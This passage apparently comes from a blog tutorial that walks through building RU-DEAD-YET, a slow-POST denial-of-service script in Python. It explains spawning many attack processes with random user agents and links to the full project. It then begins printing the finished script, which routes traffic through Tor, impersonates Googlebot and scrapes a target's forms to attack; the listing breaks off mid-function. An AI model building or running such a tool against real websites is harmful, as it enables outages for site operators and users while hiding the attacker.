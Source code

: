 
Once we've created our configs dictionary using configure(), we start spawning child processes to run the launch_attack() function. Each child process gets a unique HTTP header with a randomly selected user agent. Once we have launched all of our child processes, we wait for them to finish running and join with their parent process. Since this will probably take a really long time to happen, we throw the whole block of code in a try-catch block so that the user can cleanly terminate the script by pressing ctrl+c.

# Building RU-DEAD-YET - Everything Else

The rest of the code in the script is dedicated to parsing command line arguments and setting configurations. I'm omitting a detailed explanation about how this portion of the script works for the sake of brevity. With that said, feel free to email me if you have any questions about how the script's setup code works. You can also clone a copy of the complete project [here](http://github.com/s0lst1c3/rudydos).

Our completed RUDY script should look like this:

{% highlight python %} 

#!/usr/bin/env python

import requests
import requesocks
import socket
import sys
import re
import random
import time

from bs4 import BeautifulSoup
from socks import socksocket
from urlparse import urlparse
from multiprocessing import Process
from argparse import ArgumentParser

MAX_CONNECTIONS      = 50
SLEEP_TIME           = 10
PROXY_ADDRESS        = '127.0.0.1'
PROXY_PORT           = 9050 # default to TOR
DEFAULT_USER_AGENT   = '%s' %\
    'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'

def form_to_dict(form):
    
    form_dict = {
        'action' : form.get('action', ''),
        'method' : form.get('method', 'post'),
        'id' : form.get('id', ''),
        'class' : form.get('class', ''),
        'inputs' : [],
    }
    
    for index, input_field in enumerate(form.findAll('input')):

        form_dict['inputs'].append({
            'id' : input_field.get('id', ''),
            'class' : input_field.get('class', ''),
            'name' : input_field.get('name', ''),
            'value' : input_field.get('value', ''),
            'type' : input_field.get('type', ''),
        })
    return form_dict

def get_forms(response):
    
    soup = BeautifulSoup(response.text)

    forms = []